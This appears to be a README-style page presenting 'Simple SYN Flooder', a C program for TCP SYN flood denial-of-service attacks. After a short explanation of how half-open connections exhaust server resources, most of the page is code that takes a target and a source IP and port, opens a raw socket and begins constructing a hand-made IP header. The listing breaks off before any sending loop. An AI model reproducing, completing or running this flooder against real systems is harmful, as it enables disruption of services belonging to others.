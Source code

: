 ### Simple SYN Flooder

SYN flooder is a simple program that sends just the initial SYN packet of the
TCP connection handshake. The server replies with a SYN/ACK (if the port is open)
and importantly leaves the connection open waiting for a response. The idea
of the SYN flooder is to cause a disruption by sending many syn packets and
exhausting resources used to keep open the waiting connections. To do this we
have to bypass the normal TCP stack (which will try to do a full handshake)
and just send the initial SYN packet using a [raw socket](https://en.wikipedia.org/wiki/Network_socket#Types).

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <arpa/inet.h>
#include <netinet/ip.h>
#include <netinet/tcp.h>

#define PACKET_LEN 8192
#define SEND_DELAY 1

int main(int argc, char* argv[]){

  if (argc < 5){
    printf("syn_flood [target-ip] [target-port] [source-ip] [source-port]\n");
    exit(1);
  }

  char* target_ip = argv[1];
  char* source_ip = argv[3];
  int target_port = atoi(argv[2]), source_port = atoi(argv[4]);

  printf("starting syn_flood of %s:%d from address %s:%d...\n",
          target_ip, target_port, source_ip, source_port);

  // create a raw socket no type we will write tcp packet ourselves
  int s = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
  if (s < 0){
    printf("error creating socket\n");
    exit(-1);
  }
  else
    printf("socket created successfully\n");

  // Buffer of maximum packet length size to send
  char buffer[PACKET_LEN];
  // Dummy socket address for sendto we manually set address/ports
  struct sockaddr_in socket_addr;

  // IP header and TCP header at appropriate offsets
  struct iphdr *ip = (struct iphdr *) buffer;
  struct tcphdr *tcp = (struct tcphdr *) (buffer + sizeof(struct iphdr));

  // zero out our packet buffer
  memset(buffer, 0, PACKET_LEN);

  // ip header structure
  ip->ihl = 5;  // header length
  ip->version = 4;  // ip version
  ip->tos = 0;  // type of service
  ip->tot_len = sizeof(struct iphdr) + sizeof(struct tcphdr); // total length
  ip->id = htons(54321);  // identification
```